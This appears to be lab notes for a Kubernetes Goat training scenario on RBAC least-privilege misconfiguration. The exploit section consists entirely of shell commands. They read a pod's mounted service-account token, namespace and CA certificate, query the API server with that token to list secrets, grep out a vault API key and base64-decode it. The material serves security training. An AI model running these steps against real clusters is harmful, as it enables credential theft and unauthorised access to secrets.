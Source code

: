 # K02: RBAC least privileges misconfiguration

# Setup

# Exploit

```shell
kubectl -n big-monolith get secrets,pods
```

Visit [http://127.0.0.1:1236](http://127.0.0.1:1236)

```shell
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -l
total 0
lrwxrwxrwx 1 root root 13 Jun 14 09:52 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root 16 Jun 14 09:52 namespace -> ..data/namespace
lrwxrwxrwx 1 root root 12 Jun 14 09:52 token -> ..data/token
cat token
cat namespace

{
    export APISERVER=https://${KUBERNETES_SERVICE_HOST};
    export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount;
    export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace);
    export TOKEN=$(cat ${SERVICEACCOUNT}/token);
    export CACERT=${SERVICEACCOUNT}/ca.crt;
}

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey

echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

# Links

- [Attacking private registry](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-7/attacking-private-container-registry-in-kubernetes/welcome)